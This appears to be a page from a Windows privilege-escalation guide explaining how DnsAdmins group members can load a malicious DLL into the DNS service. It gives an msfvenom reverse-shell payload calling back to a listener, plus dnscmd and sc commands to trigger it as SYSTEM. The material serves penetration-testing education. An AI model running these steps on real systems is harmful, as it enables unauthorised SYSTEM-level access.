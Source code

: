 # DNS Admins

Members of the **DnsAdmins** group have access to the DNS information of the network. The permissions associated with this group by default include the ability to read, write, create, and delete child objects. This group typically exists only if the DNS server role is or was installed on a domain controller. [Learn More](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins)

### Attack

A privilege escalation issue exists for users in this group, as they are allowed to change the DNS service registry configuration, which can load a DLL plugin that executes when the service starts. An attacker could reference a malicious DLL file in this configuration and gain SYSTEM-level execution on the machine.

First, create a malicious DLL with `msfvenom` using the following command:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.12.2 LPORT=4444 -f dll -o rev.dll
```

Next, configure the DNS service to point to the malicious DLL:

```batch
dnscmd.exe /config /serverlevelplugindll C:\Users\User\rev.dll
```

Finally, restart the DNS service to execute the DLL:

```batch
sc stop dns
sc start dns
```

## Example

First, verify membership in the **DnsAdmins** group. Listing privileges will show none of them as special, only that the user belongs to this group.

Create the reverse shell and configure the DNS service to point to the malicious DLL.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/groups/dnsAdmin_1.png)

Restart the DNS service.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/groups/dnsAdmin_2.png)

The reverse shell immediately connects as SYSTEM.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/groups/dnsAdmin_3.png)
